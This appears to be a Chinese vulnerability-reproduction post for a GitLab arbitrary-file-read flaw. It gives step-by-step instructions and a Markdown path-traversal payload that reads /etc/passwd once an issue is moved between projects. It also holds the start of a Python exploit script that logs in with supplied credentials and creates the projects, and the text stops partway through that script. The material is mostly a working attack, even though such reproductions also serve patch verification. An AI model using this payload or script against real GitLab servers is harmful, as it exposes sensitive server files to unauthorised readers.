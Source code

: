 注册用户：test/12345678

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZY6hG3Mrfex5kPCEQhSofibZy7kNBWVrHzLkUq4GPHPrcAp0qgvK2ribAVZ3yia4NmlJqJngMcModRQ/640?wx_fmt=png)

①创建两个项目：project1，project2  

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZY6hG3Mrfex5kPCEQhSofib4r5IRl3pgFdjaQiaTrnFzKw3WvnibzPibbnDlG6gyOhI9FZxLXpbUsDYg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZY6hG3Mrfex5kPCEQhSofib6JCz80gyibrDxBG0FLWLV2q2KopCicUaY5RvdDF53MAHCdTM0xvyibx0w/640?wx_fmt=png)

②创建 issues，里面打 payload：

```
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZY6hG3Mrfex5kPCEQhSofibOh37kZKkiaicmiadBvppciaxDVteueI3H3BIeujPKHMoosn8lYiaOoxWVQQ/640?wx_fmt=png)

③移动 issues。从 project1 移动到 project2：  

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZY6hG3Mrfex5kPCEQhSofibBdh1TTk0hYic0tZ5bcnTda7urou5nibdRoGrdDOdzaycl6sOfn11srgA/640?wx_fmt=png)

④移动完成后再 project2 中可以看到 passwd 文件，直接下载即可读取到敏感文件，漏洞复现成功：  

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZY6hG3Mrfex5kPCEQhSofibbDiboaYXGAJ40sEicEU2jo6S6GojCHzCnSyP1UYXLD8RAQ9YfvSoEibgA/640?wx_fmt=png)

⑤脚本梭哈：

```
#!/usr/bin/env python3
 
import sys
import json
import requests
import argparse
from bs4 import BeautifulSoup
requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)
 
parser = argparse.ArgumentParser()
parser.add_argument('url', help='Target URL with http(s)://')
parser.add_argument('username', help='GitLab Username')
parser.add_argument('password', help='GitLab Password')
args = parser.parse_args()
 
base_url = args.url
if base_url.startswith('http://') or base_url.startswith('https://'):
  pass
else:
  print('[-] Include http:// or https:// in the URL!')
  sys.exit()
if base_url.endswith('/'):
  base_url = base_url[:-1]
 
username = args.username
password = args.password
 
login_url = base_url + '/users/sign_in'
project_url = base_url + '/projects/new'
create_url = base_url + '/projects'
prev_issue_url = ''
csrf_token = ''
project_names = ['ProjectOne', 'ProjectTwo']
 
session = requests.Session()
```